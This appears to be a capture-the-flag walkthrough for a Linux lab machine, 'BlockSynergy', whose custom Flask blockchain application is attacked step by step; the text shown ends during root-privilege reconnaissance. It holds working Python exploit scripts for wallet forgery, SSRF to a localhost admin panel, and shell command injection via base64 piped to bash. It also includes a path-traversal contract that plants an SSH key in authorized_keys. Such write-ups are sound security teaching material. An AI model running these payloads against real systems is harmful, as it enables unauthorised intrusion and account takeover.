# BlockSynergy

```
Difficulty: Insane  
Operating system: Linux  
Document version: Share-safe edition (flags, credentials, keys, IP addresses, local paths, and personal identifiers removed)
```
## Offensive Operations

## Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
|:----:|:--------|:----------------------------------------------|:------------------------------------------------------------------------------------|
| 1 | `N/A` | **Nmap Recon** | Identified only 22/tcp and 8080/tcp exposed; port 8080 hosts a Werkzeug/Python (Flask) application. |
| 2 | `N/A` | **Public Blockchain Enumeration** | `/blockchain` endpoint exposes every historical transaction, allowing reconstruction of every public key's balance without authentication. |
| 3 | `N/A` | **Wallet Identity Forgery** | Wallet import accepts `private_key` and `public_key` independently with no derivation check; a fresh private key was paired with the richest historical public key. |
| 4 | `N/A` (VIP) | **Forged VIP Wallet Load** | Hybrid wallet imported successfully; VIP balance and privileges inherited with zero mining. |
| 5 | `VIP` | **SSRF via Node Management** | VIP-only "test node" feature blocks `127.0.0.1`/`localhost` but not `0.0.0.0`, reaching the localhost-only `/admin` panel. |
| 6 | `VIP` | **Node ID Resolution** | Registered and resolved the exact node ID for the SSRF target from the live node list to avoid stale/incorrect entries. |
| 7 | `VIP` | **URL-Parser Differential -> Command Injection** | `ping_node` admin action parses a crafted URL differently than the registration validator; shell metacharacters in userinfo survive into a shell command. |
| 8 | `walter` | **RCE via `ping_node`** | Base64-encoded commands piped through `bash` executed as `walter`; confirmed via `id`. |
| 9 | `walter` | **User Flag** | `/home/walter/user.txt` read via the command-injection primitive. |
| 10 | `walter` | **Internal Service Discovery** | `ss`/`curl` through the RCE primitive revealed a second Flask app on `127.0.0.1:5000`, running as `hank`. |
| 11 | `walter` | **ContractEngine Debug Hook - Path Traversal** | A crafted contract's `debug`/`log_file` metadata traversed to `/home/hank/.ssh/authorized_keys`, appending an attacker-controlled SSH key. |
| 12 | `walter` | **Contract Upload + Mint Trigger** | Uploaded the malicious contract and fired the `on_mint` hook (session-cookie continuity required) to execute the traversal write. |
| 13 | `hank` | **SSH Foothold** | Logged in directly via the planted SSH key; user pivot from `walter` to `hank` complete. |
| 14 | `hank` | **Cron / Cron Job Observation (`pspy64`)** | Identified a root cron job (`*/5 * * * *`) running `backup.sh`, which `tar`s `/opt/blocksynergy` and `curl -T`s it to a local FTP server with the credential visible in the process command line. |
| 15 | `hank` | **Restore Workflow Recon** | Creating `/opt/blocksynergy/restore` triggers `restore_daemon.sh`: checksum-verifies the FTP archive, downloads it into `/var/restore_work`, then extracts it as root. |
| 16 | `hank` | **TOCTOU Race Identification** | Checksum covers the FTP object; extraction targets a separate, group-writable local copy - a time-of-check/time-of-use gap. |
| 17 | `hank` | **Malicious SUID Archive** | Built a tar archive transforming `/bin/bash` into `opt/blocksynergy/.diag`, owned `root:root`, mode `4755`. |
| 18 | `hank` | **Winning the Restore Race** | Polled `/var/restore_work` for the downloaded archive's size to stabilize past the completed-download threshold, then atomically `mv`'d the malicious archive into place before root's `tar` extracted it. |
| 19 | `root` (planted) | **SUID Verification** | Confirmed `/opt/blocksynergy/.diag` extracted as `root:root`, mode `4755`, at full expected size. |
| 20 | `hank` -> `root` | **`bash -p`** | Effective UID preserved from the SUID bit (`euid=0`); **root.txt** retrieved. |


### Initial reconnaissance

Run a complete TCP scan, then a focused service scan:

```bash
nmap -Pn -n -sT -p- --min-rate 1000 <TARGET_IP>
nmap -Pn -n -sCV -p22,8080 <TARGET_IP>
```

[Nmap Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/nmap_results.nmap "Results")

Relevant services:

```text
22/tcp   open  ssh
8080/tcp open  http  Werkzeug / Python
```

The application is available at:

```text
http://<TARGET_IP>:8080/
```

The application implements a custom blockchain, wallets, a VIP area, node management, and an administrator panel restricted to localhost.


### Forge a VIP wallet without mining

##### Vulnerability

The public `/blockchain` endpoint exposes every historical transaction. A client can therefore reconstruct the balance associated with every public key.

The wallet import function accepts `private_key` and `public_key` independently. It does not verify that the public key is mathematically derived from the supplied private key.

The VIP check trusts the balance associated with the imported `public_key`. We can therefore:

1. Ask the application to generate a valid private key.
2. Calculate the richest historical public key from the public chain.
3. Create a hybrid wallet containing our valid private key and the rich public key.
4. Import the hybrid wallet and inherit its balance.

Mining is not required.

#### VIP wallet script


[Wallet Balance](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/Wallet.py "Results")


```python
#!/usr/bin/env python3
import html
import json
import re
from collections import defaultdict

import requests

BASE = "http://<TARGET_IP>:8080"
session = requests.Session()
session.headers["User-Agent"] = "Mozilla/5.0"

# Create a legitimate local private key.
response = session.post(
    f"{BASE}/dashboard/wallet",
    data={"action": "create", "filename": "fresh"},
    timeout=20,
)
response.raise_for_status()
fresh_wallet = response.json()

# Reconstruct balances from the public chain.
chain = session.get(f"{BASE}/blockchain", timeout=20).json()
balances = defaultdict(int)

for block in chain:
    for transaction in block.get("data", []):
        if not isinstance(transaction, dict) or "amount" not in transaction:
            continue

        amount = int(transaction["amount"])
        sender = transaction.get("sender")
        receiver = transaction.get("receiver")

        if receiver:
            balances[receiver] += amount
        if sender and sender != "Blockchain_Reward":
            balances[sender] -= amount

vip_public_key, vip_balance = max(balances.items(), key=lambda item: item[1])
assert vip_balance >= 10, "No VIP-capable historical wallet found"

forged_wallet = {
    "private_key": fresh_wallet["private_key"],
    "public_key": vip_public_key,
}

response = session.post(
    f"{BASE}/dashboard/wallet",
    data={"action": "load"},
    files={
        "file": (
            "forged_wallet.json",
            json.dumps(forged_wallet),
            "application/json",
        )
    },
    timeout=20,
)
response.raise_for_status()
assert "Wallet loaded successfully" in response.text

print(f"VIP wallet loaded (balance={vip_balance})")
```


Keep the same `requests.Session()` object for the following steps because the wallet state is session-bound.







##### Important warning

Do not submit malformed transactions such as an empty JSON object to `/broadcast_transaction`. On a shared or long-lived instance, malformed pending data can poison the transaction pool and make unrelated routes return HTTP 500 until the machine is reset.


### SSRF to the localhost-only administrator panel

##### Node Management as an SSRF primitive

VIP users can register an arbitrary node URL and ask the server to test it:

```text
POST /dashboard/vip/nodes
GET  /dashboard/vip/nodes/test_node/<NODE_ID>
```

The application blocks common loopback spellings, including `127.0.0.1` and `localhost`, but accepts `0.0.0.0`.

From the target itself, this URL reaches the local service on port 8080:

```text
http://0.0.0.0:8080/admin
```

A direct request to `/admin` returns `403 Permission Denied`, while the SSRF response contains the administrator dashboard. This is the required baseline/control pair.

##### Register and resolve the exact node ID

Do not assume that a node's list position is stable. Resolve the ID from the exact URL row:

[SSRF](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/ssrf_wallet.py "Results")


```python
def register_node(url):
    response = session.post(
        f"{BASE}/dashboard/vip/nodes",
        data={"action": "register", "node": url},
        timeout=20,
    )
    response.raise_for_status()


def find_node_id(url):
    page = session.get(f"{BASE}/dashboard/vip/nodes", timeout=20).text
    pairs = [
        (html.unescape(value), node_id)
        for value, node_id in re.findall(
            r'title="([^"]+)".*?testNode\(\'([0-9]+)\'\)',
            page,
            re.S,
        )
    ]
    return next(
        node_id
        for value, node_id in reversed(pairs)
        if value == url
    )


def test_node(url):
    node_id = find_node_id(url)
    response = session.get(
        f"{BASE}/dashboard/vip/nodes/test_node/{node_id}",
        timeout=60,
    )
    response.raise_for_status()
    return response.text


admin_url = "http://0.0.0.0:8080/admin"
register_node(admin_url)
assert "Admin Dashboard" in test_node(admin_url)
print("Local administrator panel reached through SSRF")
```




### Command injection through the URL parser differential

#### Vulnerability

The administrator action `ping_node` extracts an address from a supplied URL and passes it to a shell command without safe argument separation.

The registration filter and the administrator action parse the same URL differently. A crafted URL with userinfo presents `<VPN_TUN_IP>` as the hostname to the validator while shell metacharacters remain in the value later consumed by `ping_node`.

Payload structure:

```text
http://foo&echo$IFS''<BASE64_COMMAND>|base64$IFS''-d|bash&@<VPN_TUN_IP>:18083/
```

`$IFS` substitutes for spaces. Base64 avoids quoting and metacharacter problems inside the command body.

#### Reusable command execution helper

Append this code to the VIP script so it reuses the same authenticated session:

[Commmand Injection](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/rce_wall.py "Results")


```python
import base64
from urllib.parse import urlencode

VPN_IP = "<VPN_TUN_IP>"


def execute_as_walter(command):
    encoded = base64.b64encode(command.encode()).decode()

    command_node = (
        "http://foo&echo$IFS''"
        + encoded
        + "|base64$IFS''-d|bash&@"
        + VPN_IP
        + ":18083/"
    )

    # The administrator code expects the target to exist in the node list.
    register_node(command_node)

    internal_action = (
        "http://0.0.0.0:8080/admin/nodes/manage?"
        + urlencode({"action": "ping_node", "target": command_node})
    )
    register_node(internal_action)

    body = test_node(internal_action)
    outputs = [
        html.unescape(value).strip()
        for value in re.findall(r"<pre[^>]*>(.*?)</pre>", body, re.S)
        if html.unescape(value).strip()
    ]
    return "\n".join(outputs)


print(execute_as_walter("hostname; id"))
```


Expected privilege:

```text
uid=1000(walter) gid=1000(walter) groups=1000(walter)
```

### User flag

```python
print(execute_as_walter("id; cat /home/walter/user.txt"))
```

Expected result:

```text
uid=1000(walter) ...
<USER_FLAG>
```




## 5. Discover the internal development application

Use the Walter command primitive to enumerate listening services:

```bash
ss -lntp 2>/dev/null
curl -s http://127.0.0.1:5000/dashboard | head
```

Port 5000 hosts a second Flask application under `/opt/staging/smart_contracts`. Useful source files include:

```text
/opt/staging/smart_contracts/dev_app.py
/opt/staging/smart_contracts/dev_blockchain.py
/opt/staging/smart_contracts/contract.py
```

Read them through the Walter command primitive:

```bash
sed -n '1,240p' /opt/staging/smart_contracts/contract.py
sed -n '1,220p' /opt/staging/smart_contracts/dev_app.py
```

The development service runs as `hank`.





### ContractEngine debug hook path traversal to Hank

##### Vulnerability

`ContractEngine.run_hook()` supports a debug-only `log` hook. When `debug` is the string `"True"`, it builds a path like this:

```python
logfile = f"/opt/staging/smart_contracts/logs/{file}"
with open(logfile, "a") as handle:
    handle.write(content)
```

The user-controlled `log_file` value is not normalized or restricted. A traversal can therefore append attacker-controlled data to a file writable by Hank.

The traversal base is:

```text
/opt/staging/smart_contracts/logs/
```

Four parent traversals reach the filesystem root:

```text
../../../../home/hank/.ssh/authorized_keys
```

[Path Traversal](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/hank_path_traverals.py "Results")




[Verification](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/hank_apth_traveral_verify.py "Results")


##### Generate a dedicated key pair

On your attack host:

```bash
ssh-keygen -t ed25519 -f <SSH_KEY_FILE> -N '' -C blocksynergy-writeup
```

Set `<YOUR_SSH_PUBLIC_KEY>` to the single line from `<SSH_KEY_FILE>.pub`.

##### Malicious contract

Create `/tmp/hank_contract.json` through the Walter command primitive:

```json
{
  "name": "ssh-bootstrap",
  "id": 1,
  "owner": "Developer",
  "debug": "True",
  "logic": {
    "mint": "allow"
  },
  "storage": {
    "balances": {},
    "total_supply": 0
  },
  "hooks": {
    "on_mint": "log"
  },
  "__meta__": {
    "log_file": "../../../../home/hank/.ssh/authorized_keys",
    "log_content": {
      "on_mint": "\n<YOUR_SSH_PUBLIC_KEY>\n"
    }
  }
}
```

The intended machine image already contains `/home/hank/.ssh`. Verify that the directory exists before attempting the append.




##### Upload and trigger the hook

Run these commands through the Walter shell primitive. The cookie handling is important: the upload response creates the Flask session, so the upload request must use both `-b` and `-c` before the mint request.

```bash
curl -s -c /tmp/hank_contract.jar \
  http://127.0.0.1:5000/dashboard >/dev/null

curl -s -b /tmp/hank_contract.jar -c /tmp/hank_contract.jar \
  -F action=upload_contract \
  -F contract_file=@/tmp/hank_contract.json \
  http://127.0.0.1:5000/dashboard \
  -o /tmp/hank_upload.html

grep -q 'Contract loaded' /tmp/hank_upload.html

curl -s -b /tmp/hank_contract.jar -c /tmp/hank_contract.jar \
  -d action=contract_mint \
  -d contract_mint_amount=1 \
  http://127.0.0.1:5000/dashboard \
  -o /tmp/hank_mint.html
```

##### SSH as Hank

```bash
ssh -i <SSH_KEY_FILE> \
  -o IdentitiesOnly=yes \
  hank@<TARGET_IP>
```

Expected identity:

```text
uid=1001(hank) gid=1003(hank) groups=1003(hank),1001(developers)
```

At this point the user foothold is complete.




### Privilege escalation reconnaissance as Hank

##### Cron and permissions

```bash
cat /etc/crontab
stat -c '%U:%G %a %A %n' /opt/backup /opt/blocksynergy /var/restore_work
ps -eo pid,ppid,user,args --no-headers | grep restore_daemon
```

[cron_dirs.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/system/cron_dirs.txt"Results")

[crontab](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/system/crontab "Results")

[identity_and_processes.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/system/identity_and_processes.txt "Results")

[pspy.log](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/system/journalctl_boots.log "Results")
[journalctl_full.log](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/system/journalctl_full.log "Results")


Relevant results:

```text
*/5 * * * * root /opt/backup/backup.sh
/opt/backup        root:sysadmins 0770
/opt/blocksynergy  hank:developers 0775
/var/restore_work  root:developers 0775
root ... /bin/bash /opt/backup/restore_daemon.sh
```




Hank cannot read `/opt/backup/backup.sh` directly, but can write within `/opt/blocksynergy` and `/var/restore_work`.

##### Observe the root cron job with pspy64

Transfer any trusted copy of `pspy64` to the lab and run it as Hank:

```bash
chmod 700 /tmp/pspy64
/tmp/pspy64 -pf -i 1000
```

At the next five-minute cron boundary, pspy exposes the backup command:

```text
UID=0 | /bin/tar czf /tmp/_opt_blocksynergy.tar.gz /opt/blocksynergy
UID=0 | /usr/bin/curl -T /tmp/_opt_blocksynergy.tar.gz \
  ftp://ftpuser:<FTP_PASSWORD>@127.0.0.1:15432/upload/_opt_blocksynergy.tar.gz
```

Store the credential privately as `<FTP_PASSWORD>`. Never publish the real value.




